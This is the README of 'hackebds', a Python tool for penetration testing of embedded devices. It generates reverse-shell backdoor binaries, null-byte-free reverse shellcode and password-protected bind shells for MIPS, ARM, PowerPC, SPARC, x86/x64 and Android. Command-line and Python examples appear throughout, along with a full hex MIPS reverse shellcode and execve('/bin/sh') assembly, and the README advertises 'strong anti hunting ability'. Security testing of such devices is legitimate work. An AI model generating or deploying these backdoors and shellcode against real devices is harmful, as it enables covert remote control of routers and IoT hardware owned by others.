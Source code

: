 hackebds
========

|image1|\ |image2|\ |image3|

🔗\ `中文readme <https://github.com/doudoudedi/hackEmbedded/blob/main/readme_cn.md>`__

foreword
--------

   In the process of penetration and vulnerability mining of embedded
   devices, many problems have been encountered. One is that some
   devices do not have telnetd or ssh services to obtain an interactive
   shell，Some devices are protected by firewall and cannot be connected
   to it in the forward direction Reverse_shell is required, and the
   other is that memory corruption vulnerabilities such as stack
   overflow are usually Null bytes are truncated, so it is more
   troublesome to construct reverse_shellcode, so this tool was
   developed to exploit the vulnerability. This tool is developed based
   on the PWN module and currently uses the python2 language，\ **Has
   been updated to python3**

fuction
-------

This tool is embedded in the security test of the device. There are two
main functions:

1.  Generate **backdoor programs** of various architectures. The
    backdoor program is packaged in shellless pure shellcode and is
    smal，Pure static backdoor .\ **Armv5, Armv7, Armv8, mipsel,
    mips，mips64，mipsel64，powerpc, powerpc64，sparc,sparc64 are now
    supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during
    the exploit process, and no null bytes, which facilitates the
    exploitation of memory corruption vulnerabilities on embedded
    devices. **Armv5, Armv7, Armv8, mipsel, mips, mips64, mipsel64,
    powerpc, powerpc64，sparc are now supported, and they are still
    being updated**

3.  | Fixed some bugs that the reverse_shellcode and reverse_backdoor
      **ports were selected too big**, and **added the function of
      generating bindshell with specified ports and passwords under x86
      and x64**\ ，\ **and beautified the generation
      process\***\ \*（This feature will be updated to various
      architectures）*\*
    | Add support armvelv7_bind_shell(2022.10.27)，

4.  Removed the generation sleep time of shellcode, and added mips\_
    bind\_ Shell, reverse of x86 and x64 small end\_ shell\_ Backdoor,
    the mips that are expected to be interrupted by mips\_ bind\_ Shell,
    which solves the error of password logic processing in the bindshell
    in mips，Joined aarch64\_ bind\_ shell

5.  Support command line generation backdoor and shell code, Strong anti
    hunting ability,characterized by light, small, efficient and fast

6.  The learning function of the device model is added. After
    establishing the relationship between the model and arch, the target
    content is generated again. You only need to specify the model

7.  CVE retrieval function is added and CVE retrieval is backed up

8.  Improved x86, x64, armebv5, reverse\_ shellcode and reverse\_
    shell\_ file

9.  Improved the file generation process, directory designation and file
    replacement

10. Improved support for MacOS systems

install
-------

pip download（Use the command line need sudo）

.. code:: 

   sudo pip(3) install -U hackebds

（If you want this tool to run on a MacOS system, you need to include
python/bin in the bashrc environment variable）

.. code:: 

   echo 'export PATH="/Users/{you id}/Library/Python/{your installed python}/bin:$PATH"'>> ~/.bashrc

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221125095653018.png
   :alt: 

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221121142622451.png
   :alt: 

Instructions for use
~~~~~~~~~~~~~~~~~~~~

When importing this module will import the pwn module

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221118202002242.png
   :alt: 

| Please install the corresponding binutils environment before use
| expample:

.. code:: 

   Ubuntu（debian）:
     apt search binutils | grep arm（You can replace it here）
     apt install binutils-arm-linux-gnueabi/hirsute
    MacOS:
    	 https://github.com/Gallopsled/pwntools-binutils
    	 brew install https://raw.githubusercontent.com/Gallopsled/pwntools-binutils/master/osx/binutils-$ARCH.rb

1. Use the command line to generate the backdoor file name, shellcode,
   bindshell, etc

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221206180431454.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png
      :alt: 

   .. code:: 

      hackebds -bind_port 8080 -passwd 1234 -arch mips -model DIR-823 -res bind_shell

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png
      :alt: 

   .. code:: 

      execve("/bin/busybox",["ls","-al"],0) == hackebds -cmd_path "/bin/busybox" -cmd "ls -al" -arch mips -res cmd_file
      execve("/usr/bin/curl",["curl","http://127.0.0.1"],0) == hackebds -cmd_path "/usr/bin/curl" -cmd "curl http://127.0.0.1" -arch mips -res cmd_file

   CMD_FILE(Generate a file that executes the specified command)

   Execute commands using the execve system call

   PS：What needs to be noted here is that the completed command path
   must be specified during use.

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221226114125342.png
      :alt: 

2. Generate backdoor programs of various architectures, encapsulate pure
   shellcode, and successfully connect to the shell

.. code:: 

   >>> from hackebds import *
   >>> mipsel_backdoor(reverse_ip,reverse_port)
   >>> mips_backdoor(reverse_ip,reverse_port)
   >>> aarch64_backdoor(reverse_ip,reverse_port)
   >>> armelv5_backdoor(reverse_ip,reverse_port)
   >>> armelv7_backdoor(reverse_ip,reverse_port)
   >>> armebv5_backdoor(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_backdoor(reverse_ip,reverse_port)
   >>> mips64el_backdoor(reverse_ip,reverse_port)
   >>> x86el_backdoor(reverse_ip,reverse_port)
   >>> x64el_backdoor(reverse_ip, reverse_port)
   >>> sparc32.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> sparc64.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> powerpc_info.powerpc_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpcle_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64le_backdoor(reverse_ip, reverse_port)
   >>> x86_bind_shell(listen_port, passwd)
   >>> x64_bind_shell(listen_port, passwd)
   >>> armelv7_bind_shell(listen_port, passwd)
   >>> aarch64_ bind_ shell(listen_port, passwd)
   >>> mips_bind_shell(listen_port, passwd)
   >>> mipsel_bind_shell(listen_port, passwd)
   >>> sparc32.sparc_bind_shell(listen_port, passwd)
   >>> powerpc_info.powerpc_bind_shell(listen_port, passwd)

（Note that the maximum password length is 4 characters for
x86（32bits） and 8 characters for x64（64bits））

.. code:: 

   >>> mipsel_backdoor("127.0.0.1",5566)
   [+] reverse_ip is: 127.0.0.1
   [+] reverse_port is: 5566
   [*] waiting 3s
   [+] mipsel_backdoor is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png
   :alt: 

.. code:: 

   >>> from hackebds import *
   >>> x86_bind_shell(4466,"doud")
   [+] bind port is set to 4466
   [+] passwd is set to 'doud'
   0x0000000064756f64
   [*] waiting 3s
   [+] x86_bind_shell is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png
   :alt: 

Then connect to the port bound to the device (password exists)

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png
   :alt: 

1. Generates the use-back shellcode (no free) null bytes corresponding
   to various architectures

.. code:: 

   >>> from hackebds import *
   >>> mipsel_reverse_sl(reverse_ip,reverse_port)
   >>> mips_reverse_sl(reverse_ip,reverse_port)
   >>> aarch64_reverse_sl(reverse_ip,reverse_port)
   >>> armelv5_reverse_sl(reverse_ip,reverse_port)
   >>> armelv7_reverse_sl(reverse_ip,reverse_port)
   >>> armebv5_reverse_sl(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_reverse_sl(reverse_ip,reverse_port)
   >>> mips64el_reverse_sl(reverse_ip,reverse_port)
   >>> android_aarch64_backdoor(reverse_ip,reverse_port)
   >>> x86el_reverse_sl(reverse_ip,reverse_port)
   >>> x64el_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppcle_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64le_reverse_sl(reverse_ip,reverse_port)

example:

.. code:: 

   >>> from hackebds import *
   >>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
   [+] No NULL byte shellcode for hex(len is 264):
   \xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01

1. Added that shellcode for calling execve cannot be generated in
   shellcraft (change context generate mips64(el), powerpc shell code
   for execve("/bin/sh",["/bin/sh"]),0))

   .. code:: 

      >>> from hackebds import *
      >>> test = ESH()
      [*] arch is i386
      [*] endian is little
      [*] bits is 32
      >>> test.sh()
      [*] Please set correct assembly schema information(pwerpc or mips64(el))
      >>> context.arch = 'mips64'
      >>> test.sh()
      "\n\t\t\t/* execve(path='/bin/sh', argv=['sh'], envp=0) */\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1, -8($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -8\n\t\t\tdadd     $a0, $sp, $zero\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1,-12($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -8($sp)\n\t\t\tsw      $zero, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -12\n\t\t\tslti    $a1, $zero, -1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tli      $t9, -9\n\t\t\tnor     $a1, $t9, $zero\n\t\t\tdadd     $a1, $sp, $a1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tdadd     $a1, $sp, $zero\n\t\t\tslti    $a2, $zero, -1\n\t\t\tli      $v0, 0x13c1\n\t\t\tsyscall 0x40404\n\t\t\t"
      >>> test.sh()

chips and architectures
-----------------------

Tests can leverage chips and architectures

| Mips:
| MIPS 74kc V4.12 big endian,
| MIPS 24kc V5.0 little endian (Ralink SoC)
| Ingenic Xburst V0.0 FPU V0.0 little endian

| Armv7:
| Allwinner(全志)V3s

| Armv8:
| Qualcomm Snapdragon 660

Powerpc, sparc: qemu

🍺enjoy hacking
---------------

updating
--------

2022.4.19 Added support for aarch64 null-byte reverse_shellcode

2022.4.30 Reduced amount of code using functions and support python3

2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and
mipsel_reverse_sl were not enabled, added mips64_backdoor,
mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl
generation

2022.5.21 0.0.9 version changed the generation method of armel V5
backdoor and added the specified generation of riscv-v64 backdoor

2022.6.27 0.1.0 Added Android backdoor generation

2022.10.26 0.1.5 Fixed some problems and added some automatic generation
functions of bindshell specified port passwords

2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)

2022.11.1 Removed the generation sleep time of shellcode, and added
mips\_ bind\_ Shell, reverse of x86 and x64 small end\_ shell\_
Backdoor, the mips that are expected to be interrupted by mips\_ bind\_
Shell, which solves the error of password logic processing in the
bindshell in mips

|  2022.11.2 Joined aarch64\_ bind\_ shell
|  2022.11.2 Support command line generation backdoor and shell code,
  characterized by light, small, efficient and fast

2022.12.6 0.2.8 Add sparc_bind_shell && powerpc_bind_shell ，fix some
bug

2022.12.26 0.2.9 Added the program function of generating specified
commands, and added executable permissions after generating files

vul fix
-------

CVE-2021-29921 The tool is a complete client program. This vulnerability
will not affect the use of the tool. If you want to fix it, please run
the tool in python 3.9 and above

CVE-2022-40023 DOS_attack pip install -U mako (The vulnerability does
not apply to this tool)

CVE-2021-20270 DOS_attack pip install -U pygments (The vulnerability
does not apply to this tool)

0.2.5 Version Repair directory traversal in the specified model

.. |image1| image:: https://img.shields.io/pypi/wheel/hackebds
.. |image2| image:: https://img.shields.io/pypi/pyversions/pwntools
.. |image3| image:: https://pepy.tech/badge/hackebds
   :target: https://pepy.tech/project/hackebds


